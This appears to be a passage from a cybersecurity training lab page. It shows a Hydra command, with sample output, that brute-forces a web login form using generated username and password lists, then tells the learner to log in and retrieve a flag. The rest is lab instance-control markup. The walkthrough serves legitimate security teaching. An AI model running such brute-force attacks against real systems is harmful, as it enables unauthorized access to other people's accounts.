 <p>Use the two generated lists in Hydra against the target to brute-force the login form. Remember to change the target info for your instance.</p>
<pre><code class="language-shell-session">[!bash!]$ hydra -L usernames.txt -P jane-filtered.txt IP -s PORT -f http-post-form "/:username=^USER^&amp;password=^PASS^:Invalid credentials"

Hydra v9.5 (c) 2023 by van Hauser/THC &amp; David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these * ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2024-09-05 11:47:14
[DATA] max 16 tasks per 1 server, overall 16 tasks, 655060 login tries (l:14/p:46790), ~40942 tries per task
[DATA] attacking http-post-form://IP:PORT/:username=^USER^&amp;password=^PASS^:Invalid credentials
[PORT][http-post-form] host: IP   login: ...   password: ...
[STATUS] attack finished for IP (valid pair found)
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2024-09-05 11:47:18
</code></pre>
<p>Once Hydra has completed the attack, log into the website using the discovered credentials and retrieve the flag.</p>
<div class="mb-5 pwnbox-select-card"></div>
<div id="screen" style="height: 600px; border: 1px solid;">
<div class="screenPlaceholder">
<div class="instanceLoading" style="display: none;">
<h1 class="text-center" style="margin-top: 270px;"><i class="fa fa-circle-notch fa-spin"></i>
</h1>
<div class="text-center">Instance is starting...</div>
</div>
<div class="instanceTerminating" style="display: none;">
<h1 class="text-center" style="margin-top: 270px;"><i class="fa fa-circle-notch fa-spin"></i>
</h1>
<div class="text-center">Terminating instance...</div>
</div>
<div class="row instanceStart max-width-canvas">
<div class="col-4"></div>
<div class="col-4">
<button class="startInstanceBtn btn btn-success text-light btn-lg btn-block" style="margin-top: 270px;">Start Instance
                            </button>
<p class="text-center mt-2 font-size-13 font-secondary">
<span class="text-success spawnsLeft">
<i class="fal fa-infinity"></i>
</span> / 1 spawns left
                            </p>
</div>
<div class="col-4"></div>
</div>
</div>
</div>
<div class="row align-center justify-center my-4">
<div class="col-5 justify-start">
<button class="instance-button fullScreenBtn btn btn-light btn-sm float-left" style="display:none;" target="_blank"><i class="fad fa-expand text-success mr-1"></i>  Full Screen
                    </button>
<button class="instance-button terminateInstanceBtn btn btn-light btn-sm ml-2" style="display:none;"><i class="fad fa-times text-danger"></i>  Terminate
                    </button>
<button class="instance-button resetInstanceBtn btn btn-light btn-sm ml-1" style="display:none;"><i class="fad fa-sync text-warning mr-2"></i>  Reset
                    </button>
<div class="btn-group" role="group">
<button class="instance-button extendInstanceBtn btn btn-light btn-sm ml-1" style="display:none;cursor: default;">Life Left:
                            <span class="lifeLeft"></span>m